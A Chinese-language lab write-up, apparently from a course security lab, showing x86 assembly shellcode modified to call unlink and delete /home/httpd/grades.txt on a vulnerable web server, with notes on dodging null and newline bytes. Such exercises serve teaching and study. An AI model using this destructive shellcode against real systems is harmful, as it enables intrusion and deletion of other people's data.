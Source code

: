 lab1 的要求是系统调用替换成 unlink，删除掉 /home/httpd/grades.txt 文件。先了解一下 unlink 这个系统调用：

```c
int unlink(const char *pathname);
```

只有一个参数，那比 execve 简单多了~ 修改后的 shellcode：

```assembly
#include <sys/syscall.h>

#define STRING    "/home/httpd/grades.txt"
#define STRLEN    22
#define PATHNAME  (STRLEN+1)

.globl main
    .type   main, @function

 main:
    jmp     calladdr

 popladdr:
    popl    %esi
    movl    %esi,(PATHNAME)(%esi) /* set up PATHNAME pointer to pathname */
    xorl    %eax,%eax             /* get a 32-bit zero value */
    movb    %al,(STRLEN)(%esi)    /* null-terminate our string */

    movb    $9,%al
    inc     %eax          /* syscall arg 1: syscall number */
                          /* 这里不用 $SYS_exit 立即数是因为 syscall number 为 10 */
                          /* 对应 ascii 码为 \n，在 http_read_line 处理时会替换成 0 */
    movl    %esi,%ebx     /* syscall arg 2: string pathname */
    int     $0x80         /* invoke syscall */

    xorl    %ebx,%ebx     /* syscall arg 2: 0 */
    movl    %ebx,%eax
    inc     %eax          /* syscall arg 1: SYS_exit (1), uses */
                          /* mov+inc to avoid null byte */
    int     $0x80         /* invoke syscall */

 calladdr:
    call    popladdr
    .ascii  STRING
```
{: file='shellcodes.S'}